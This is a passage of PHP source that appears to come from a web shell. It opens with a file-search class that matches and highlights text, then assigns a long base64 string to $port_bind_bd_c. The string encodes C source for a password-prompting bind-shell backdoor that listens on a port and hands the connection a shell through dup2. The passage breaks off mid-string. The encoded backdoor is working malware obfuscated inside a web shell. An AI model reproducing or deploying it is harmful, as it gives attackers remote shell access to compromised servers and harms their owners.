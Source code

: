       $this-&gt;titles = Array();
    }
    function GetFilesTotal() { return $this-&gt;FilesTotal; }
    function GetTitles() { return $this-&gt;titles; }
    function GetTimeTotal() { return $this-&gt;TimeTotal; }
    function GetMatchesCount() { return $this-&gt;MatchesCount; }
    function GetFileMatchesCount() { return $this-&gt;FileMatchesCount; }
    function GetResultFiles() { return $this-&gt;ResultFiles; }
    function SearchText($phrase=0,$case=0) {
    $qq = @explode(' ',$this-&gt;text);
    $delim = '|';
      if($phrase)
        foreach($qq as $k=&gt;$v)
          $qq[$k] = '\b'.$v.'\b';
      $words = '('.@implode($delim,$qq).')';
      $pattern = "/".$words."/";
      if(!$case)
        $pattern .= 'i';
      foreach($this-&gt;FilesToSearch as $k=&gt;$filename)
      {
        $this-&gt;FileMatchesCount[$filename] = 0;
        $FileStrings = @file($filename) or @next;
        for($a=0;$a&lt;@count($FileStrings);$a++)
        {
          $count = 0;
          $CurString = $FileStrings[$a];
          $CurString = @Trim($CurString);
          $CurString = @strip_tags($CurString);
          $aa = '';
          if(($count = @preg_match_all($pattern,$CurString,$aa)))
          {
            $CurString = @preg_replace($pattern,"&lt;SPAN style='color: #990000;'&gt;&lt;b&gt;\\1&lt;/b&gt;&lt;/SPAN&gt;",$CurString);
            $this-&gt;ResultFiles[$filename][$a+1] = $CurString;
            $this-&gt;MatchesCount += $count;
            $this-&gt;FileMatchesCount[$filename] += $count;
          }
        }
      }
      $this-&gt;TimeTotal = @round(getmicrotime() - $this-&gt;TimeStart,4);
    }
  }
  function getmicrotime()
  {
    list($usec,$sec) = @explode(" ",@microtime());
    return ((float)$usec + (float)$sec);
  }
$port_bind_bd_c="I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3RyaW5nLmg+DQojaW5jbHVkZSA8c3lzL3R5cGVzLmg+DQojaW5jbHVkZS
A8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCiNpbmNsdWRlIDxlcnJuby5oPg0KaW50IG1haW4oYXJnYyxhcmd2KQ0KaW50I
GFyZ2M7DQpjaGFyICoqYXJndjsNCnsgIA0KIGludCBzb2NrZmQsIG5ld2ZkOw0KIGNoYXIgYnVmWzMwXTsNCiBzdHJ1Y3Qgc29ja2FkZHJfaW4gcmVt
b3RlOw0KIGlmKGZvcmsoKSA9PSAwKSB7IA0KIHJlbW90ZS5zaW5fZmFtaWx5ID0gQUZfSU5FVDsNCiByZW1vdGUuc2luX3BvcnQgPSBodG9ucyhhdG9
pKGFyZ3ZbMV0pKTsNCiByZW1vdGUuc2luX2FkZHIuc19hZGRyID0gaHRvbmwoSU5BRERSX0FOWSk7IA0KIHNvY2tmZCA9IHNvY2tldChBRl9JTkVULF
NPQ0tfU1RSRUFNLDApOw0KIGlmKCFzb2NrZmQpIHBlcnJvcigic29ja2V0IGVycm9yIik7DQogYmluZChzb2NrZmQsIChzdHJ1Y3Qgc29ja2FkZHIgK
ikmcmVtb3RlLCAweDEwKTsNCiBsaXN0ZW4oc29ja2ZkLCA1KTsNCiB3aGlsZSgxKQ0KICB7DQogICBuZXdmZD1hY2NlcHQoc29ja2ZkLDAsMCk7DQog
ICBkdXAyKG5ld2ZkLDApOw0KICAgZHVwMihuZXdmZCwxKTsNCiAgIGR1cDIobmV3ZmQsMik7DQogICB3cml0ZShuZXdmZCwiUGFzc3dvcmQ6IiwxMCk